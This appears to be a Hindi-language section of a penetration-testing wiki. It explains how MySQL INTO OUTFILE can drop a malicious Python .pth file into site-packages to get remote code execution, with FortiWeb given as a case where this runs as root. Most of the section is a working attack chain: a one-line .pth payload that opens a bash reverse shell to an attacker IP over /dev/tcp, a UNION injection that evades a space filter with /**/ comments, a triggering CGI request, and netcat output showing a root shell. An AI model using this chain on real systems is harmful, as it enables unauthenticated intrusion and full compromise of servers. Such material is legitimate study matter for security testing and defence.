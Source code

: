 ### MySQL फ़ाइल RCE

{{#ref}}
../pentesting-web/sql-injection/mysql-injection/mysql-ssrf.md
{{#endref}}

#### INTO OUTFILE → Python `.pth` RCE (साइट-विशिष्ट कॉन्फ़िगरेशन हुक)

क्लासिक `INTO OUTFILE` प्राइमिटिव का दुरुपयोग करके, उन लक्ष्यों पर *मनमाना कोड निष्पादन* प्राप्त करना संभव है जो बाद में **Python** स्क्रिप्ट चलाते हैं।

1. `INTO OUTFILE` का उपयोग करके किसी भी निर्देशिका के अंदर एक कस्टम **`.pth`** फ़ाइल ड्रॉप करें जो `site.py` द्वारा स्वचालित रूप से लोड होती है (जैसे `.../lib/python3.10/site-packages/`)।
2. `.pth` फ़ाइल में एक *एकल पंक्ति* हो सकती है जो `import ` से शुरू होती है, इसके बाद मनमाना Python कोड होता है जिसे हर बार इंटरप्रेटर शुरू होने पर निष्पादित किया जाएगा।
3. जब CGI स्क्रिप्ट द्वारा इंटरप्रेटर को निहित रूप से निष्पादित किया जाता है (उदाहरण के लिए `/cgi-bin/ml-draw.py` जिसमें शेबैंग `#!/bin/python` है) तो पेलोड वेब-सेवा प्रक्रिया के समान विशेषाधिकारों के साथ निष्पादित होता है (FortiWeb ने इसे **root** के रूप में चलाया → पूर्ण प्री-ऑथ RCE)।

उदाहरण `.pth` पेलोड (एकल पंक्ति, अंतिम SQL पेलोड में कोई स्पेस शामिल नहीं किया जा सकता, इसलिए hex/`UNHEX()` या स्ट्रिंग संयोजन की आवश्यकता हो सकती है):
```python
import os,sys,subprocess,base64;subprocess.call("bash -c 'bash -i >& /dev/tcp/10.10.14.66/4444 0>&1'",shell=True)
```
एक **UNION** क्वेरी के माध्यम से फ़ाइल बनाने का उदाहरण (स्पेस कैरेक्टर्स को `/**/` से बदलकर `sscanf("%128s")` स्पेस फ़िल्टर को बायपास करना और कुल लंबाई ≤128 बाइट्स रखना):
```sql
'/**/UNION/**/SELECT/**/token/**/FROM/**/fabric_user.user_table/**/INTO/**/OUTFILE/**/'../../lib/python3.10/site-packages/x.pth'
```
महत्वपूर्ण सीमाएँ और बायपास:

* `INTO OUTFILE` **मौजूदा फाइलों को अधिलेखित** नहीं कर सकता; एक नया फ़ाइल नाम चुनें।
* फ़ाइल पथ **MySQL के CWD के सापेक्ष** हल किया जाता है, इसलिए `../../` के साथ प्रारंभ करना पथ को छोटा करने और पूर्ण-पथ प्रतिबंधों को बायपास करने में मदद करता है।
* यदि हमलावर का इनपुट `%128s` (या समान) के साथ निकाला जाता है तो कोई भी स्पेस पेलोड को ट्रंकट कर देगा; स्पेस को बदलने के लिए MySQL टिप्पणी अनुक्रम `/**/` या `/*!*/` का उपयोग करें।
* क्वेरी चलाने वाले MySQL उपयोगकर्ता को `FILE` विशेषाधिकार की आवश्यकता होती है, लेकिन कई उपकरणों (जैसे FortiWeb) में सेवा **root** के रूप में चलती है, जिससे लगभग हर जगह लिखने की अनुमति मिलती है।

`.pth` को ड्रॉप करने के बाद, कोड निष्पादन प्राप्त करने के लिए बस किसी भी CGI को अनुरोध करें जो पायथन इंटरप्रेटर द्वारा संभाला जाता है:
```
GET /cgi-bin/ml-draw.py HTTP/1.1
Host: <target>
```
Python प्रक्रिया स्वचालित रूप से दुर्भावनापूर्ण `.pth` को आयात करेगी और शेल पेलोड को निष्पादित करेगी।
```
# Attacker
$ nc -lvnp 4444
id
uid=0(root) gid=0(root) groups=0(root)
```
---
